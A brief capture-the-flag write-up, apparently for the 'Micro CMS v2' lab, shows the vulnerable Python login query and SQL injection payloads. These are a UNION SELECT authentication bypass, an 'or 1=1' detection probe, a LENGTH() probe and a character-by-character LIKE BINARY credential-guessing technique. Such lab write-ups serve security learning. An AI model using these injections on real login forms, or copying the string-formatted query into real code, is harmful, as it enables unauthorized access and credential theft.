 # Micro CMS v2

## Login

In login username field you can inject SQL code

python
```
if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
```

Inject password

`' UNION SELECT 'test' -- `

## FLAGS

### #1

#### Detection mechnism

When you inject in the login username field the following `' or 1=1 -- `, the error message changes from `Unknown user` to `Invalid password`.

#### Fields length

With the following we can find the length of the field `' OR LENGTH(password)=8;`

#### Fields content

Via Frontend testing framework (Selenium) we can use the following SQL syntax to guess the username and password `' OR password LIKE BINARY '________'`. By knowing the length and using the MySQL wildcard character `_` we can make a dictionarry attack character per character.